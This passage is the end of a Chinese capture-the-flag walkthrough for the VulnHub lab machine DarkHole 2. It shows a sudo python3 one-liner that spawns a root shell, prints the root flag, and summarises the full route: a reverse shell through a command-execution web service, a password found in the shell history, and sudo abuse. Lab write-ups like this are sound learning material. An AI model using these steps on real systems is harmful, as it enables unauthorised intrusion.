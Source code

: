 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9RuJYo6RLskkBrhB4XVlSSTQo76jHufqHupASeVmbiadzcrZzZJpdMibQ/640?wx_fmt=png)image-20211024185156858

查看 losy 用户的 sudo 权限（jehad 用户无法使用 sudo）

可以使用 python3

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9goRtSMKCzEuIZ5o9Os9kpTgUiaDKwiaz411DUYv8STG70W5MY1v5oQcQ/640?wx_fmt=png)image-20211024185636798

三、权限提升
------

### 1. 获取 root 权限

```
sudo python3 -c 'import os; os.system("/bin/sh")'
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ95FhqJuEia1QwbCeibQwSHqLUfLFGEtTyekvE9iaiavbfXNzjIkyzCM6sPg/640?wx_fmt=png)image-20211024185736417

### 2. 获取 root flag

```
DarkHole{'Legend'}
```

总结
--

这台靶机难度定义的是难，但也不难，比第一个难一点点。我翻了一下网上的教程，他们居然没看历史命令记录，好吧，这可能是出题人忘记删掉了，但难度还行吧。命令记录会保留一个 crontab 的计划任务，这用 LinEnum 脚本很容易发现，然后就是通过查看源码发现命令执行的 web 服务，进行反弹 shell 得到 losy 的 shell，在历史记录中发现 losy 的密码，登上去 ssh，查看 sudo 即可使用 python3 获取 root 权限。

参考
--

https://nepcodex.com/2021/09/darkhole_2-walkthrough-vulnhub-writeup/